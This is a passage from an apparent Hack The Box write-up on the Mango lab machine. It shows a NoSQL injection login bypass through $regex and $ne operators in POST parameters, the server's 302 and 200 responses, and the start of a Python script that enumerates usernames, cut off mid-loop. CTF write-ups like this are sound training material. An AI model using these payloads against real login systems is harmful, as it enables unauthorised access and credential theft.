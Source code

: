 ```php+HTML
POST /index.php HTTP/1.1
Host: staging-order.mango.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://staging-order.mango.htb/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Connection: close
Cookie: PHPSESSID=mhjjgas0rehghidc43tabutvin
Upgrade-Insecure-Requests: 1

username[$regex]=a.*&password[$ne]=admin&login=login
```

The username and password sentence ca be translated this way - " If have a user that beginning with letter 'a' and the password not equal  ```admin```. Sent this we receive a 302 code (redirect):

```php+HTML
HTTP/1.1 302 Found
Date: Sat, 25 Apr 2020 00:29:03 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
location: home.php
Content-Length: 4022
Connection: close
Content-Type: text/html; charset=UTF-8
```

If we change the the request wit user name to something like that :

```php+HTML
username[$regex]=b.*&password[$ne]=admin&login=login
```

We get a 200 code response instead of 302.  This particular behavior can be exploited to discovery the name of users and the passwords. Lets code one python script to enumerate  users:

#### enum-user.py  

```python
#!/usr/bin/python3

from requests import post
from string import ascii_lowercase

url = "http://staging-order.mango.htb/"

def sendrequest(data):

    
    # to debug send the request to proxy
    #r=post(url,data=data, allow_redirects=False,proxies={'http':'localhost:8080'})
    
    r=post(url , data=data, allow_redirects=False)
    if r.status_code == 302: # status code that equal to bypass portal login
        return True
    
def payload():
    

    for  c in ascii_lowercase: # external loop , the first letter wil be a, second b ...

        username = c
```